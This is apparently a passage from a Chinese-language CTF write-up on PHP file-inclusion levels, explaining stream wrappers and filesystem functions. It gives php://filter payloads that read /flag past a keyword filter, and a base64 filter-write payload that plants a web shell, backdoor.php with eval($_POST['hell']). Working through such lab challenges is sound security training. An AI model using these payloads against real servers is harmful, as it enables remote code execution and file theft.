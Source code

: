 早在我们之前提及该部分对应文档 【支持的协议和封装协议】https://www.php.net/manual/zh/wrappers.php 时，其中的这样一句话就有强调 “PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。”这些函数的特定 —— 【文件系统·文件系统函数】https://www.php.net/manual/zh/book.filesystem.php。

所以在文件包含的题目中，除了include类型函数，其他文件系统函数也可以用来考察协议方面的内容，比如 file_put_contents(), file_get_contents(), file(), readfile() .etc。

`file_get_contents` 算是标准的Read行为，作为文件函数，他同样支持封装协议，由于题目要求输出的内容不能含有 flag 关键字，可以尝试字符串或者转换过滤器：

```php
php://filter/string.toupper/resource=/flag （正则并没有匹配大小写）
php://filter/string.rot13/resource=/flag
php://filter/read=convert.base64-encode/resource=/flag
...
```

### Level 11 文件系统函数_file_put_contents()

file_put_contents() 函数(https://www.php.net/manual/zh/function.file-put-contents.php) 这将对应过滤器中的Write方法，用于将数据写入文件。

`file_put_contents($filename,$data)`其中`filename` 是要被写入数据的文件名 —— 如果 filename 是 "**scheme://...**" 的格式，则被当成一个 URL，PHP 将搜索协议处理器（也被称为封装协议）来处理此模式。

```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename,$data);
}
```

正则同 Level 3 中一样,那么写入一个Base64字符串即可。

Payload：

**GET**：`?filename=php://filter/write=convert.base64-decode/resource=backdoor.php`

**POST**：`data=PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`

```php
backdoor.php : <?php eval($_POST['hell']);?>
```

### Level 11- 封装协议解析

死亡绕过前置关卡，最早来源于P牛2016年的博客文章：https://www.leavesongs.com/PENETRATION/php-filter-magic.html

不过由于PHP版本的更新，string.strip_tags 已经被弃用。

注：该关卡没有FLAG.

[【filter过滤器】](https://www.php.net/manual/zh/filters.convert.php)：

`string.rot13`

`string.strip_tags` 去除html、PHP语言标签 (本特性已自 PHP 7.3.0 起废弃)

`convert.base64-encode` 和 `convert.base64-decode`
